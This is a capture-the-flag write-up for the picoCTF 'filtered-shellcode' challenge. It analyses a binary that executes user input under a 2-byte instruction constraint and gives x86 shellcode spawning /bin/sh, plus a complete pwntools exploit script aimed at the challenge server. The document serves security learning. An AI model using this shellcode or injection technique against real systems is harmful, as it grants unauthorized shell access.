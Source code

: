 
# **filtered-shellcode (fun)**

## **Challenge Overview**

We are given a binary `fun` that reads user-provided input, executes it, and expects some kind of shellcode as input. The goal is to spawn a shell (`/bin/sh`) using x86 assembly.

---

## **Binary Analysis**

The main function:

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
    _BYTE v4[1000]; // input buffer
    _BYTE v5[5];    // small control buffer
    int *p_argc;

    p_argc = &argc;
    setbuf(stdout, 0);
    v5[4] = 0;
    puts("Give me code to run:");
    
    *(_DWORD *)v5 = (unsigned __int8)fgetc(stdin);
    while (v5[0] != 10 && *(_DWORD *)&v5[1] <= 0x3E7u)
    {
        v4[*(_DWORD *)&v5[1]] = v5[0];
        v5[0] = fgetc(stdin);
        ++*(_DWORD *)&v5[1];
    }

    if ((v5[1] & 1) != 0)
        v4[(*(_DWORD *)&v5[1])++] = -112;

    execute(v4, *(_DWORD *)&v5[1]);
    return 0;
}
```

### Observations:

1. **Input buffer**: `_BYTE v4[1000]` stores user input.
2. **Control buffer `v5`**: Tracks bytes read.
3. **Execution**: Calls `execute(v4, length)` to execute the buffer.
4. **Restrictions**: The challenge enforces **2-byte instructions only**, so standard shellcode must be adapted.

The `execute()` function processes the buffer and injects padding to enforce **2-byte instruction rules**:

```c
for (i = 0; v8 > i; ++i)
{
    if ((int)i % 4 > 1)
        *((_BYTE *)v6 + i) = -112; // insert padding 0x90 (NOP)
    else
        *((_BYTE *)v6 + i) = *(_BYTE *)(v3 + a1);
}
```

This ensures only instructions aligned as **2-byte chunks** execute properly.

---

## **Shellcode**

We write a **2-byte compliant shellcode** to spawn `/bin/sh`.

Key points:

* Syscall `execve("/bin/sh", 0, 0)`
* Registers:

  * `eax` = syscall number 11 (`0xb`)
  * `ebx` = pointer to `/bin/sh` string
  * `ecx` = `0`
  * `edx` = `0`

Due to the 2-byte instruction restriction, we use `shl` repeatedly to assemble bytes of `/bin/sh` on the stack.

```asm
; Syscall number
xor eax, eax
mov al, 0x0b
xor ecx, ecx
xor edx, edx

; Push "/sh\x00"
xor ebx, ebx
mov bl, 0x68        ; 'h'
shl ebx              ; shift left repeatedly (2-byte instruction)
...
mov bh, 0x73        ; 's'
mov bl, 0x2f        ; '/'
push ebx
nop

; Push "/bin"
mov bh, 0x6e
mov bl, 0x69
shl ebx
...
mov bh, 0x62
mov bl, 0x2f
push ebx
nop

; Move stack pointer to ebx
mov ebx, esp

; Make the syscall
int 0x80
```

**Explanation of technique:**

* **`shl ebx`** is used repeatedly to shift bits into position.
* **`mov bl, ...` / `mov bh, ...`** sets individual bytes.
* **`push ebx`** places `/bin/sh` on the stack in **little-endian** order.
* `int 0x80` triggers the system call.

This way, the shellcode avoids null bytes and respects the 2-byte instruction restriction.

---

## **Exploit Script (Pwntools)**

```python
from pwn import *

elf = context.binary = ELF('./fun')
context.arch = 'i386'
context.log_level = 'info'

# Remote info
REMOTE_HOST = 'mercury.picoctf.net'
REMOTE_PORT = 28494

# Decide local vs remote
if args.REMOTE:
    p = remote(REMOTE_HOST, REMOTE_PORT)
else:
    p = process('./fun')

p.recvuntil("Give me code to run:")

payload = b"\x31\xC0\xB0\x0B\x31\xC9\x31\xD2\x31\xDB\xB3\x68\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xB7\x73\xB3\x2F\x53\x90\xB7\x6E\xB3\x69\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xD1\xE3\xB7\x62\xB3\x2F\x53\x90\x89\xE3\xCD\x80"
p.sendline(payload)
p.interactive()

```

**Run locally:**

```bash
python3 exploit.py
```

**Run remotely:**

```bash
python3 exploit.py REMOTE=1
```

---

![result](./img/result.png)